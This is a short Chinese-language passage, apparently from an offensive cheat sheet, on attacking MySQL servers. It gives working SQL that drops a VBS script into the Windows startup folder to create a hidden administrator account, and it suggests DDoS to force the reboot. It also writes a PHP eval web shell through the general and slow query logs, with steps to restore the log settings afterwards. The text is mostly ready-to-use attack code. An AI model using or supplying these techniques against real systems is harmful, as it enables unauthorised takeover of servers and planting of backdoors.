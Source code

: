 ### 启动项提权

在前两种方法都失败时,那可以试一下启动项提权..因为要求达到的条件和 mof 几乎一样,并且要重启服务,所以不是十分推荐.

原理还是使用 mysql 写文件,写入一段 VBS 代码到开机自启动中,服务器重启达到创建用户并提权,可以使用 DDOS 迫使服务器重启.

提权条件
1. file_priv 不为 null
2. 已知 root 密码

```sql
create table a (cmd text);
insert into a values ("set wshshell=createobject (""wscript.shell"") " );
insert into a values ("a=wshshell.run (""cmd.exe /c net user sqladmin 123456 /add"",0) " );
insert into a values ("b=wshshell.run (""cmd.exe /c net localgroup administrators sqladmin /add"",0) " );
select * from a into outfile "C:\\Documents and Settings\\All Users\\「开始」菜单\\程序\\启动\\a.vbs";
```

### 日志 getshell

查询当前 mysql 下 log 日志的默认地址，同时也看下 log 日志是否为开启状态，并且记录下原地址，方便后面恢复。
```sql
-- 开启日志监测，一般是关闭的，如果一直开，文件会很大的。
set global general_log = on;

-- 这里设置我们需要写入的路径就可以了。
set global general_log_file = 'D:/shell.php';

-- 查询一个一句话，这个时候log日志里就会记录这个。
select '<?php eval($_POST['1']);?>';
```

```sql
-- 结束后，再修改为原来的路径。
set global general_log_file = 'D:\xampp\mysql\data\1.log';

-- 关闭下日志记录。
set global general_log = off;
```

### 慢查询日志

MySQL 的慢查询日志是 MySQL 提供的一种日志记录，它用来记录在 MySQL 中响应时间超过阀值的语句。

对日志量庞大，直接访问日志网页极有可能出现 500 错误。通过开启慢查询日志，记录了超时 10s 的 SQL，这样页面的代码量会减轻很多不易导致 500, 配置可解析日志文件 GETSHELL。
```sql
show variables like '%slow%';
```
long_query_time 的默认值为 10，意思是运行 10S 以上的语句。该值可以指定为微秒的分辨率。具体指运行时间超过 long_query_time 值的 SQL，则会被记录到慢查询日志中。

```sql
set GLOBAL slow_query_log_file='C:/phpStudy/PHPTutorial/WWW/slow.php';
set GLOBAL slow_query_log=on;
set GLOBAL log_queries_not_using_indexes=on;
```
